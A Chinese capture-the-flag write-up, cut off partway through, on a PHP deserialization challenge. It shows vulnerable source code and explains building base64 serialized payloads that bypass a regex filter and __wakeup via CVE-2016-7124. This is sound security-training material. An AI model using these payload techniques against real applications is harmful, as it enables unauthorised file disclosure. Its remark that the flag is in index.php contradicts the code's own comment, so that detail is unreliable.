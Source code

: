 

# Web_php_unserialize

进入之后代码如下：

```
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```

很明显是一个get发包，那么构造payload需要在url里边加。另外还做了base64的加密以及waf的过滤，可以。

而且给了提示，说flag在index.php里边。_wakeup这边有判定，如果不是index.php就转换为index.php。所以我们还得做对__wakeup的绕过。

这里构造payload时注意php的语法。本题的class叫Demo，所以创建新变量的时候如下：

```
$var=new Demo('whoami/');
echo (base64_encode(serialize($var)));
```

把生成的序列粘贴到hackbar里边，就能触发stop hacking页面了。

现在我们要绕过__wakeup，用CVE-2016-7124。这个漏洞在反序列化的时候，如果表示对象属性个数的值大于真实的属性个数时，就会跳过wakeup的执行。

例如：

原序列化：

```
$var = serialize($var);
var_dump($var);//string(48) "O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}"
```
